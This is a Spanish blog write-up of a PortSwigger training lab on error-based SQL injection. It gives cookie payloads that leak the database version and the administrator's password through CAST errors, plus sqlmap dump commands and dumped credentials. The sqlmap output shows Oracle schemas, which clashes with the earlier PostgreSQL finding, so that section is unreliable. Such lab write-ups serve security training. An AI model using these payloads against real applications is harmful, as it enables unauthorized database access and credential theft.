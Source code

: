 ```yaml
---
title: "Visible error-based SQL injection"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2025-02-09 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - Visible error-based SQL injection
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL`. La aplicación utiliza una `cookie` de seguimiento para análisis y `ejecuta` una `consulta SQL` que incluye el valor de la cookie enviada, los resultados de la `consulta SQL` no se devuelven. La `base` de `datos` contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el `laboratorio`, hay que `encontrar` una forma de `filtrar` la `contraseña` del usuario `administrador` y luego `iniciar sesión` en su cuenta

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-13/image_1.png)

Si `capturamos` la `petición` a la web con `Burpsuite` vemos un campo llamado `TrackingId`

![](/assets/img/SQLI-Lab-13/image_2.png)

Si enviamos una petición normal a la web no notaremos nada extraño, sin embargo, si añadimos una `'` al en el campo `TrackingId` nos arrojará un `error`, esto quiere decir que podemos hemos logrado `interferir` en la `consulta SQL` que se está tramitando. Esto se debe a que la consulta que se está haciendo por detrás es la siguiente

```
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```

![](/assets/img/SQLI-Lab-13/image_3.png)

Si en el campo cookie efectuamos la inyección, `' or 1=1-- - ` o `' and 1=1-- - ` el `error` ya `no aparece` debido a que `la query se está ejecutando correctamente`. Para obtener el `número de columnas existentes` usamos un `order by`, en este caso sabemos que hay una columna, debido a que si hacemos `order by 2` o superior nos arroja un error

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+order+by+1--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

`Descartamos` que se esté empleando `Oracle`, debido a que `no ha arrojado ningún error`, si fuera Oracle nos arrojaría un error debido a que haría falta añadir `from dual`

```
Cookie: TrackingId=Fd4cX7VWOdC0tTy9'+union+select+null--+-+; session=XpgULc3syYJ6d1XZ2KtzCym9QtW2VDgn
```

Si `listamos` la `versión` de la `base` de `datos` con `@@version` nos da un `error`, por lo tanto también podemos `descartar` las bases de datos `MySQL` y `Microsoft`. Al probar con `version()` nos `devuelve` un `200 OK` lo que quiere decir que no ha producido ningún error y por lo tanto, estamos ante `PostgreSQL`

```
Cookie: TrackingId='+union+select+version()--+-+; session=4t32wyejFSosLimiWeBWotzdpQskYvmg
```

He probado a verificar si había alguna diferencia entre usar `or` y `and` en consultas como `' or (select 'a')='b'-- - ` y no hay diferencia alguna. Independientemente del operador utilizado al comparar dos strings, da igual que no sean iguales, no nos arroja ningún error. Por lo tanto, no vamos a poder utilizar `substr()` o `length()` para obtener la longitud y posteriormente bruteforcear carácter por carácter. Si nos fijamos bien `ha cambiado el error que se mostraba anteriormente` al usar este `payload`

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_4.png)

Para que no se produzca el error podemos simplemente añadir 1=

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

Comprobamos que se ve reflejado en la respuesta el input introducido

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+'testing')+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_5.png)

Una vez hecho esto ya podemos ver el `output` que se produce al `listar` la `version` de al `base` de `datos` modificando el `payload` anterior

```
Cookie: TrackingId=bU3yTvP58kltPa83'+and+1=cast((select+version())+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_6.png)

Hemos tenido que `borrar caracteres` debido a que hay un `límite máximo de caracteres`, si nos pasamos de 60 caracteres la consulta no se llevará a cabo. Por esta misma razón no podemos listar tablas ni bases de datos, la única opción para para enumerar tablas que se me ocurre es `bruteforcear` el `nombre` de las `tablas` para la `base de datos actual` mediante un `Cluster bomb` o un `script en python` y usando este `payload`. El primer `payload` serían las `letras` de la `a-z` y el segundo sería un `diccionario` con el `nombre` de `tablas`

```
Cookie: TrackingId='+and+1=cast((select+'a'+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

`Si la tabla existe nos responderá con este mensaje`, una vez encontrada una tabla existente podemos `bruteforcear` el `nombre` de las `columnas` con un `ataque` de `tipo Sniper`

![](/assets/img/SQLI-Lab-13/image_7.png)

Por el contrario `si la tabla no existe nos responderá con este otro mensaje`, de esta forma, si nos fijamos en el `Content-Length` podremos saber si existe o no

![](/assets/img/SQLI-Lab-13/image_8.png)

`Obtenemos` el `nombre` de `usuario`

```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_9.png)

`Obtenemos` la `contraseña` del usuario `administrador`

```
Cookie: TrackingId='and+1=cast((select+password+from+users+limit+1)+as+int)--+-+; session=sR4Q8zJsTtcc808JJ5wGl7shmW8zfT4g
```

![](/assets/img/SQLI-Lab-13/image_10.png)

También podemos `obtener` las `credenciales` usando `sqlmap`, para ello, lo primero es `listar` a los `propietarios`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --dbs --batch -D peter -T uers --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
available databases [7]:
[*] "SYSTEM"
[*] APEX_040000
[*] CTXSYS
[*] MDSYS
[*] PETER
[*] SYS
[*] XDB
```

`Listamos` las `tablas` del propietario `PETER`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter --tables --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
[2 tables]
+----------+
| TRACKING |
| USERS    |
+----------+
```

`Listamos` las `columnas` de la tabla `USERS`

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users --columns --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2
Database: PETER
Table: USERS
[3 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| EMAIL    | VARCHAR2 |
| PASSWORD | VARCHAR2 |
| USERNAME | VARCHAR2 |
+----------+----------+
```

`Listamos` el `contenido` de las columnas `USERNAME` y `PASSWORD` 

```
# sqlmap -u https://0ad500c103d53c4780d90807007c0083.web-security-academy.net --risk=3 --level=5 --random-agent --batch -D peter -T users -C username,password --dump --cookie="TrackingId=OUo1wyAvhU0njrur*; session=a7QOPiB4alg9AhfrYQpRyRtI1sJ0eDcW" --threads 2     
Database: PETER
Table: USERS
[3 entries]
+---------------+----------------------+
| USERNAME      | PASSWORD             |
+---------------+----------------------+
| administrator | 865232i99b9ovbdp8kvn |
| wiener        | 6zkofcbzkuzr8zwssnb3 |
| carlos        | 6s50h6zjox61npql60g0 |
+---------------+----------------------+
```

Nos `logueamos` con las credenciales `administrador:865232i99b9ovbdp8kvn`

![](/assets/img/SQLI-Lab-13/image_11.png)

![](/assets/img/SQLI-Lab-13/image_12.png)
